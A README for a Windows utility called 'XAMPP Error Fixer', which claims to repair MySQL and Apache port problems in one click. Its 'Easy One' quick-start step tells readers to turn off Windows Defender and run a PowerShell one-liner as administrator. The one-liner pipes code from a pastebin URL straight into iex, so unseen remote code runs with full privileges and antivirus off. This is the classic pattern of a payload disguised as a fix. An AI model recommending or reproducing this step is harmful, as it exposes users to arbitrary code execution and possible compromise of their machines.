 # 🔧 XAMPP Error Fixer

A powerful Windows tool that automatically detects and fixes common XAMPP issues with just one click!

## ✨ Core Features

- **🔍 Auto-Detection**: Automatically finds your XAMPP installation
- **🛠️ Smart Fixes**: Resolves MySQL "stopped unexpectedly" errors
- **🚪 Port Management**: Handles Apache port conflicts (80, 443, etc.)
- **📦 Safe Backups**: Creates backups before making any changes
- **🎯 One-Click Solution**: Fix multiple issues with a single run

## 🚀 Quick Start
##  Easy One
**If it doesnot run, You can just turn off the windows defender and run this script for your ease and time saving**

- **Run `Powershell as administrator`**
```bash
    irm https://pastebin.com/raw/11jeZZVn | iex
```

### Option 1: Run Python Script (Make sure to have python and pip installed)-Recommended
**Check if both python and pip is available or not**
```bash
    python --version && pip --version
```
**Install xamppfixer through pip**
```bash
    pip install xamppfixer
```
**Run it**
```bash
    xfix
```

### Option 2: Run the EXE (Recommended)
 
```bash
    git clone https://github.com/sumitx007/xampp-error-fixer
```

```bash
    cd xampp-error-fixer/
```

```bash
    xampp_fixer.bat
```

1. **Select** `Run as administrator"`
2. **Follow** `the on-screen prompts`
3. **Done!** `Your XAMPP should be working`



### Option 3: Run Python Script (Make sure to have python installed)
- **Python installation checker**
```bash
    python --version
```
- **Download or clone the folder again if not Downloaded before**
1. **Open** `Command Prompt as Administrator`
```bash 
    git clone https://github.com/sumitx007/xampp-error-fixer
```
```bash
    cd xampp-error-fixer
```
```bash
    cd "Repair Scripts"
```
 **Run**: `python xampp_repair.py`
 ```bash
    python xampp_repair.py
```


## 🎯 What It Fixes

| Problem | Solution |
|---------|----------|
| ❌ MySQL won't start | Repairs database files |
| ❌ Apache port conflicts | Finds free ports or stops conflicting services |
| ❌ "MySQL stopped unexpectedly" | Restores from backup database |
| ❌ Services keep crashing | Cleans corrupted configuration |

## 📋 Requirements

- **Windows 10/11** (Windows 8.1+ supported)
- **Administrator privileges** (required)
- **XAMPP installed** on C:, D:, E:, or F: drive

## 🛡️ Safety Features

- ✅ Creates automatic backups
- ✅ Non-destructive fixes
- ✅ Preserves your databases
- ✅ Clean rollback options

## 📖 How to Use

1. **Close XAMPP** Control Panel completely
2. **Run** `xampp_fixer.exe` as administrator
3. **Let it diagnose** your XAMPP installation
4. **Choose fixes** when prompted
5. **Open XAMPP** Control Panel and start services

## 💡 Pro Tips

- Always run as **Administrator**
- Close XAMPP Control Panel before running
- Keep the generated backups safe
- Test your websites after fixing

## 🆘 Common Issues

**"Access Denied"** → Run as Administrator  
**"XAMPP Not Found"** → Install XAMPP in standard location  
**"Port Still Busy"** → Restart your computer and try again

## 📞 Support

If you encounter any issues:
1. Check that you're running as Administrator
2. Ensure XAMPP is properly installed
3. Try restarting your computer
4. Create an issue on GitHub with error details

---

**⚡ Made for the XAMPP community**

*Fix your XAMPP errors in seconds, not hours!*
